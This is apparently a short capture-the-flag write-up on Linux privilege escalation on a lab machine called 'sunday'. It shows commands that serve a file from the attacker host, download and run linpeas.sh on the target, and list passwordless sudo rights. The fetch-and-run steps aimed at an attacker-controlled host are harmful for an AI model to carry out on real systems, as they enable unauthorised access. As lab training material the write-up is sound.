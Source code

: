 ## Linpeas

```bash
# lhost
# download LinEnum
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
# lhost
python -m SimpleHTTPServer 80
# rhost
cd /tmp  
wget http://10.10.14.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
# Write the output to txt
vim linpeas.txt
```

we will find it output illegal information:

```
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
sed: illegal option -- E
```

so we neek check this machine manually. 

In enumerating as sammy, I see that sammy can sudo wget without password (either in [LinEnum.sh](https://github.com/rebootuser/LinEnum) output or from checking `sudo -l`).

##  Overwrite troll

```bash
sudo -l
```

```txt
sunny@sunday:/tmp$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```
